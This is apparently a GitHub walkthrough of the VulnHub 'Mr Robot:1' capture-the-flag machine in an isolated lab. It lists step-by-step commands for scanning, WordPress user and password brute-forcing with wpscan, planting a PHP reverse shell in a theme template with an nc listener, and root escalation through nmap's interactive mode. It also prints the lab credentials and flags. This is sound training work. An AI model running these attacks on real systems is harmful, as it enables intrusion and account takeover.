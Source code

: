 [![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)](#) 
[![Virtual Lab](https://img.shields.io/badge/VirtualBox-183A61?style=for-the-badge&logo=virtualbox&logoColor=white)](#) 
[![VulnHub](https://img.shields.io/badge/VulnHub-26A69A?style=for-the-badge&logo=v&logoColor=white)](https://www.vulnhub.com) 
[![Mr Robot:1](https://img.shields.io/badge/Mr_Robot_1-D32F2F?style=for-the-badge&logo=robots&logoColor=white)](https://www.vulnhub.com/entry/mr-robot-1,151/) 
[![Nmap](https://img.shields.io/badge/Nmap-4CAF50?style=for-the-badge&logo=n&logoColor=white)](https://nmap.org) 
[![Wpscan](https://img.shields.io/badge/Wpscan-F44336?style=for-the-badge&logo=wordpress&logoColor=white)](https://github.com/wpscanteam/wpscan) 
[![Dirsearch](https://img.shields.io/badge/Dirsearch-FF9800?style=for-the-badge&logo=search&logoColor=white)](https://github.com/maurosoria/dirsearch) 
[![Netcat](https://img.shields.io/badge/Netcat-9E9E9E?style=for-the-badge&logo=nc&logoColor=white)](https://nc110.sourceforge.io/)  [![Python](https://img.shields.io/badge/Python-3776AB?style=for-the-badge&logo=python&logoColor=white)](https://www.python.org)  [![Bash](https://img.shields.io/badge/Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white)](https://www.gnu.org/software/bash/)  [![WordPress](https://img.shields.io/badge/WordPress-21759B?style=for-the-badge&logo=wordpress&logoColor=white)](https://wordpress.org)  
[![Reverse Shell](https://img.shields.io/badge/Reverse_Shell-000000?style=for-the-badge&logo=linux&logoColor=white)](#)  [![CrackStation](https://img.shields.io/badge/CrackStation-5D4037?style=for-the-badge&logo=lock&logoColor=white)](https://crackstation.net)  

# Walkthrough Mr Robot:1

## Setting up the machine
The machine is set up in a closed environment [internal adapter] in ther virtual machine enabling communication only through that adapter.

### Setup a Virtual Lab
1. Setup the Network to be internal adapter and name it `Test-network`.
2. In the command prompt in the windows go to the virtual Box directory 
```cmd
cd "\Program Files\Oracle\VirtualBox"
```
3. Now type in
```cmd
vboxmanage dhcpserver add --network=Test-network --server-ip=10.38.1.1 --lower-ip=10.38.1.110 --upper-ip=10.38.1.120 --netmask=255.255.255.0 --enable
```
This enables the dhcp server virtually and allocates the ip address for range 10.38.1.110-120.

4. Now you have to enable another adapter for your kali linux machine having connection with the internal adapter `Test-network`.
![Screenshot 1](/pictures/0.png "Screenshot of the setup")
5. Boot up Both the machines.
 



--
## Guide:
### Key-1-of-3
1. Run the below command to know the available devices.
```bash
sudo arp-scan -l 
```
![ifconfig1](\pictures\2 "ifconfig")
You can see my ip address.

![arp-scan -l](\pictures\1 "ifconfig")
Now we know the Ip addresses.
### Ip-addresses :
| Ip address  | Associated device |
| ------------- |:-------------:|
| 10.38.1.112      | Kali-VM     |
| 10.38.1.113      | Mr_Robot     |

2. Run the command   
```bash
nmap -p- -A 10.38.1.113 -oN scan.txt
``` 
![nmap](\pictures\3 "nmap -p- -A 10.38.1.113 -oN scan.txt")
Here is the screenshot of scan report.

3. From the scan, Port 80 is open indicating an active web server in there
4. Go to the Browser and try to open ther site.
5. Since this is a web server, we can see whether there are any hidden directories in there
```bash
dirsearch -u http://10.38.1.113/
```
![Dirsearch](\pictures\4 "Dirsearsh result")

This image shows the output of dirsearch which has successfull pages [code = 200]
6.By examining all the sites, we can see the key in robots.txt; `http://10.38.1.113/robots.txt`.
![Robots.txt](\pictures\4 "Robots")

7. By going to the site `http://10.38.1.113/key-1-of-3.txt` we can see the 1st key
```
073403c8a58a1f80d943455fb30724b9
```

### Key-2-of-3.txt

1. In the same `http://10.38.1.113/robots.txt`, we find a `.dic` file containing large number of elements 
use `wc <filename>` to see the number of entries in the file.
2. We can observe that the words are repeated and in the file.
3. Use the command below, to sort it and write to another file
```bash
cat fsocity.dic | sort -u > sorted_fsocity.txt
```
4. If we have a look at the directories, we can notice a wordpress login page
![Dirsearch-wplogin](\pictures\6 "wordpress").
5. Open the link in the browser - `http://10.38.1.113/wp-login.php`.
6. We have a login page and a wordlist.
7. use `wpscan` to enumirate for the available users.
```bash
wpscan -v --url http://10.38.1.113/wp-login.php --enumerate --users-list sorted_fsocity.txt -o wpscan.txt
```
![wp-users](\pictures\7 "wordpress- users enumirated and found users").
Users available in the server

8. Password enumiration : 
```bash
wpscan -v --url http://10.38.1.113/wp-login.php -U "elliot" -P sorted_fsocity.txt -o password_elliot.txt
```
![Wp - password](\pictures\8 "Password for the user elliot").
Password for the user elliot.

9. Now login to the user using the credentilas we got `Username: elliot, Password: ER28-0652` 
10. Navigate to the `appearance -> editor -> 404 Template*`
11. Here we shall place a script that opens a shell [reverse shell]
12. Type in `locate php-reverse` and copy the file named `/usr/share/laudanum/wordpress/templates/php-reverse-shell.php` to your `pwd`.
13. Edit the ip address and portnumber to Ip = your kali linux ip address and port number = default https port number, In  my case its `IP: 10.38.1.112` & `Port: 443`.
14. Now open a new terminal instance `ctrl+shift+T` and type in the below command to start listining to the `Port 443`.
```bash
sudo nc -lvnp 443
```
15. Once yoy started this, go to the browser and type in any name followed by the ipaddress of the server
```web
For example : http://10.38.1.113/hi
```
![shell](\pictures\9 "reverse shell")
This results a forbidden page and our script is there in forbidden page and it gets executed. leading to `daemon` shell behind.

16. Here the choice of template made in `10th step` is not to be only `404 template`. It can be any of the listed. but redirecting to a forbidden page is a way more easier that redirecting to any particular page to `execute` the script. Any page that has a `client-side` error returns `404` and makes executing the script easy.
17. Now navigate to `cd home/robot` to find a `Key-2-of-3.txt` owned by user, `robot` and a `password.raw-md5` hash file containing the hash of the robot password saying, `robot:c3fcd3d76192e4007dfb496cca67e13b`
18. Decrypting the hash using ![crackstation](https://crackstation.net/) , we get the password as `abcdefghijklmnopqrstuvwxyz`
19. Type in `sudo su` -> this results in `su: must be run from a terminal`.
```Explaination
This is because the demon by default has no shell;
`$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
`
The above output says that.
since we dont have a shell we cannot switch users.
```
20. execute the below script in ther shell to invoke a bash shell for the user `daemon`
```bash
python -c 'import pty;pty.spawn("/bin/bash")'

```
21. Now we have a shell and we can login using `sudo su robot` and the `password : abcdefghijklmnopqrstuvwxyz`
22. Now we can see the contents of the file `Key-2-of-3.txt`
23. `Key-2-of-3.txt : 822c73956184f694993bede3eb39f959`

### Key-3-of-3.txt:

1. For this key we use the interactive mode of nmap which inturn can lead to a root shell 
![nmap vulnerability](https://vk9-sec.com/nmap-privilege-escalation/)
```Previlage Esclation 
In a interactive mode if we type in `!/bin/bash` we get the bash shell 
The maximum previlage is root, Nmap runnig in highest previlage causes this.
```
2. nmap --interactive
    1. Runs the nmap with higher previlage [previlage escalation]
    2. In an interactive mode if "!bash" is typed in, then the shell gets opened with the previlage of the interacting software.
    3. his results in higher previlage shell out.
    4. If !bash is typed in
        results, a current user owned bash shell
    5. If !sudo /bin/bash is typed in,
        results in saying
                `nmap> !sudo /bin/bash
                !sudo /bin/bash
                [sudo] password for robot: abcdefghijklmnopqrstuvwxyz
                robot is not in the sudoers file.  This incident will be reported.`

3. Robot is not in the sudoers file.

4. However, we are able to invoke a shell 
5. Since sh is a root owned shell by default, try
    1. `!sh` [this is a root shell by default].
        this resulted in ,
        nmap> !sh
        !sh
        `#` whoami
        `root`
6. Finally we got the `root` shell so we can see the contents of the root and there you go `cat /root/key-3-of-3.txt` and the key is `04787ddef27c3dee1ee161b21670b4e4`



















